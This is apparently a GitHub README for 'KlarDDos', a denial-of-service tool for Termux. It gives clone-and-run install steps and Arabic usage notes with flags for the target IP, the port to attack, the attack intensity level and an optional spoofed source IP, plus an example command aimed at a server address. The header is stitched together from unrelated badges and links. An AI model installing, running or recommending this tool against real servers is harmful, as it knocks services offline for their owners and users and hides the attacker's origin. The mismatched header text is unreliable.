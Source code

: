 # One For All

[![YouTube Channel Subscribers](https://youtu.be/JE_srze4gMQ)][youtube]
[![Website](https://img.shields.io/website?label=codeSTACKr.com&style=for-the-badge&url=https%3A%2F%2Fcodestackr.com)](https://codestackr.com)
[![Telegram](https://t.me/kali_linux_ar)
Download Termux tools without problems with download android and lots of operating systems
![Image 1]()
## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/Dr-Data2/KlarDDos  </code>
- 3 . <code> cd KlarDDos </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python KlarDdos.py -h  </code>




### Command information:
    الاستخدام :
$ <code>python KlarDdos.py [-i] [-p] [-l]    </code>     

│         -h : للمساعده                             
│         -i : اي بي السيرفر                            
│         -p : البورت المراد استهدافه                          
│         -l : عدد مستويات الهجوم                
│         -f : ال ايبي الزائف اختياري                              
│         -d : اخفاء وتقليل الرسائل المنبثقه                         
 مثال :                                        
<code> python KlarDdos.py -i 10.93.10.111 -p 8080 -l  2 </code>



A short video explaining the tool https://youtu.be/JE_srze4gMQ